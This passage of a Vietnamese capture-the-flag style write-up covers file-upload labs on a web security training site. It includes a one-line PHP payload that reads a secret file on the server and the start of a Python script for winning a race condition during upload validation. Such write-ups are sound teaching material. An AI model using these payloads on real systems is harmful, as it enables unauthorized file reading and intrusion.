 Ta cũng có thể thêm phần text `secret:` để dễ xác định phần nội dùng file `secret` bắt đầu từ đâu

![Untitled](writeup_media/Untitled%2021.png)

Lưu file vừa sửa thành `ava.php`. Upload file đó lên server

Truy cập file vừa tải lên, ta được nội dung file `secret`

![Untitled](writeup_media/Untitled%2022.png)

---

### **Web shell upload via race condition**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Đọc hint, ta thấy sau khi upload avatar, server sẽ lưu avatar vào `/files/avatars/<tên file>` rồi thực hiện kiểm tra xem file vừa upload có hợp lệ không. Nếu không hợp lệ thì xóa file đó đi.

Do đó, ta có thể tận dụng khoảng thời gian server đang kiểm tra hợp lệ để truy cập vào `/files/avatars/ava.php`

```python
import asyncio
import re
import time

import aiohttp
import requests

FILE_NAME = 'ava.php'
URL = 'https://ac071f1e1f112ddec0e3b740001e0040.web-security-academy.net'
URL_LOGIN = URL + '/login'
URL_MyAccount = URL + '/my-account'
URL_PostAva = URL + '/my-account/avatar'
URL_AvaLocation = URL + '/files/avatars/' + FILE_NAME
```